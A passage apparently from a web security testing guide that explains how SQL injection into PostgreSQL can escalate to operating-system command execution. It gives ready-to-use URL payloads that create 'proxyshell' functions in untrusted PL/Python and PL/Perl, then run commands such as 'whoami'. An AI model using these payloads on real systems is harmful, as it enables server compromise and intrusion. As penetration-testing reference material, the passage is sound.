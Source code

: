 ###### Example

- Create a proxy shell function:
`/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS ‘import os;return os.popen(args[0]).read()’ LANGUAGE plpythonu;--`

- Run an OS Command:
`/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--`

##### Plperl

Plperl allows us to code PostgreSQL functions in perl. Normally, it is installed as a trusted language in order to disable runtime execution of operations that interact with the underlying operating system, such as `open`. By doing so, it's impossible to gain OS-level access. To successfully inject a proxyshell like function, we need to install the untrusted version from the `postgres` user, to avoid the so-called application mask filtering of trusted/untrusted operations.

- Check if PL/perl-untrusted has been enabled:
`SELECT count(*) FROM pg_language WHERE lanname='plperlu'`

- If not, assuming that sysadm has already installed the plperl package, try :
`CREATE LANGUAGE plperlu`

- If either of the above succeeded, create a proxy shell function:
`CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,“$_[0] |”);return join("",<FD>);' LANGUAGE plperlu`

- Have fun with:
`SELECT proxyshell(os command);`

###### Example

- Create a proxy shell function:
`/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu;`

- Run an OS Command:
`/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--`

## References

- [Testing for SQL Injection](05-Testing_for_SQL_Injection.md)

- [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PostgreSQL Official Documentation](https://www.postgresql.org/docs/)
- [Bernardo Damele and Daniele Bellucci: sqlmap, a blind SQL injection tool](https://sqlmap.org/)
